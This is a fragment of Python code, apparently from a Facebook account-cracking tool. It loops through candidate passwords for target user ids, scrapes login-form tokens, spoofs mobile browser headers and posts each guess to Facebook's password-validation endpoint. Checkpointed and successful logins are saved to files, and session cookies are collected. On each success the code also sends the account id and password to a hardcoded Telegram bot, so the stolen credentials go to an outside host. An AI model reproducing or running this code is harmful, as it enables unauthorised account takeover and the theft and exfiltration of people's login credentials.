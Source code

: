 	ses = requests.Session()
	for pw in pwv:
		try:
			ses.headers.update({"Host":'d.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://d.facebook.com/login.php?skip_api_login=1&api_key=1862952583919182&kid_directed_site=0&app_id=1862952583919182&signed_next=1&next=https%3A%2F%2Fmbasic.facebook.com%2Fv2.9%2Fdialog%2Foauth%2F%3Fplatform%3Dfacebook%26client_id%3D1862952583919182%26response_type%3Dtoken%26redirect_uri%3Dhttps%253A%252F%252Fwww.tiktok.com%252Flogin%252F%26state%3D%257B%2522client_id%2522%253A%25221862952583919182%2522%252C%2522network%2522%253A%2522facebook%2522%252C%2522display%2522%253A%2522popup%2522%252C%2522callback%2522%253A%2522_hellojs_6e2e4pat%2522%252C%2522state%2522%253A%2522%2522%252C%2522redirect_uri%2522%253A%2522https%253A%252F%252Fwww.tiktok.com%252Flogin%252F%2522%252C%2522scope%2522%253A%2522basic%2522%257D%26scope%3Dpublic_profile%26auth_type%3Dreauthenticate%26display%3Dpopup%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Dc5ab7d53-0810-47b0-8640-39adfbf98cfd%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.tiktok.com%2Flogin%2F%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%2522client_id%2522%253A%25221862952583919182%2522%252C%2522network%2522%253A%2522facebook%2522%252C%2522display%2522%253A%2522popup%2522%252C%2522callback%2522%253A%2522_hellojs_6e2e4pat%2522%252C%2522state%2522%253A%2522%2522%252C%2522redirect_uri%2522%253A%2522https%253A%252F%252Fwww.tiktok.com%252Flogin%252F%2522%252C%2522scope%2522%253A%2522basic%2522%257D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
			ses.headers.update({"Host":'d.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://d.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r{x}DANAR CP \n{M}EMAIL    : {K}{idf}\n{M}PASWORD  : {K}{pw}\n')     
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				
				requests.get(f"https://api.telegram.org/bot6025762213:AAH29kD1LrMDsjG4lBzGgVl6kT4dV0OaoUY/sendMessage?chat_id=1396443240&text=\r {idf} | {pw}")
				print(f'\r{x}{B}EMAIL    :  {H}{idf} \n{B}PASSWORD : {H} {pw}\n')
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				cek_apk(session,coki)
				break
				